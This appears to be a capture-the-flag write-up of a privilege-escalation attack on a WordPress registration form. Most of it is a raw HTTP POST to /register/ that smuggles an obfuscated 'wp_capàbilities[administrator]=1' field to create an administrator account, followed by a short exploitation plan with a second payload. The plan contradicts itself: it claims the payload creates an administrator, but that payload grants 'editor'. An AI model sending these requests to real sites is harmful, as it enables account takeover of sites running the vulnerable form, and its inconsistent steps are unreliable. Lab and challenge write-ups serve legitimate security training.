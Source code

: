 #### Proof of Concept:

```http
   POST /register/ HTTP/1.1
   Host: test1.mohammadlotfi.com
   User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 226
   Origin: http://test1.mohammadlotfi.com
   Connection: close
   Referer: http://test1.mohammadlotfi.com/register/
   Cookie: wordpress_test_cookie=WP%20Cookie%20check; PHPSESSID=1b8518cf0ecbf8627f460b2b088024d9; wp_lang=en_US
   Upgrade-Insecure-Requests: 1

   user_login-29=pwnmemayb2e&user_password-29=P%40ssw0rd%21&confirm_user_password-29=P%40ssw0rd%21&first_name-29=Kaput&wp_cap%c3%a0Bilities-29[administrator]=1&form_id=29&um_request=&_wpnonce=cde6682afb&_wp_http_referer=%2Fregister%2F
```

#### Exploitation Plan:

1. Execute a POST request to `/register/` with crafted parameters to escalate privileges.
2. Use the following payload to create an administrator user:
```bash
   user_login-7=test8&first_name-7=test5&last_name-7=test5&user_email-7=test8%40gmail.com&user_password-7=test12345&confirm_user_password-7=test12345&form_id=7&um_request=&_wpnonce=69074dd5ff&_wp_http_referer=%2Fregister%2F&wp_cap%c3%a0Bilities-7[editor]=1
```
3. Retrieve the flag from the home page using the escalated privileges.
   - Flag Format: `cyberMo{...}`